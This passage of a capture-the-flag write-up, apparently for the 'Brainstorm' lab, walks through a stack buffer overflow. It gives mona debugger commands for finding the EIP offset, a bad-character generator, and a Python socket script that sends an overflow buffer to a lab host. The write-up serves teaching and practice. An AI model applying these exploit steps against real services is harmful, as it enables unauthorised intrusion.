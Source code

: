 lets try it with :-; the message, increasing length on each try by generating input from the above command.

we get a error at l=2100

let’s setup mona in immunity debugger.

config:

```shell
!mona config -set workingfolder c:\mona\%p"
```

for finding eip offset:

```shell
!mona findmsp -distance 2100
```

output offset: `2012`

![screenshot](/assets/img/thm/Brainstorm/8.png)

Now we need to check for bad characters ;-; for generating our shell.

lets first create a bytearray.bin using mona:

```shell
!mona bytearray -b "\x00"
```

generating badchars for input, using python script:

```python
for x in range(1, 256):
print("\\x" + "{:02x}".format(x), end='')
print()
```

we will send the below as input:

```
“A”*offset+ EIP(for returning) + badchars
```

we will make make use of a python script from here and modify it to our purposes: [link](https://stackoverflow.com/questions/50852062/send-byte-over-tcp-python)

```python
import socket
import struct
TCP_IP = '192.168.122.138'
TCP_PORT = 9999
BUFFER_SIZE = 1024
MESSAGE = b"hello"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
s.recv(BUFFER_SIZE)#welcome msg
s.recv(BUFFER_SIZE)#msg for username input
s.send(MESSAGE)#sending hello as username
s.recv(BUFFER_SIZE)#msg for message input
payload =""
s.send(bytes("A"*2012 + "BBBB"+ payload , "latin-1"))
s.close()
print( "done")
```
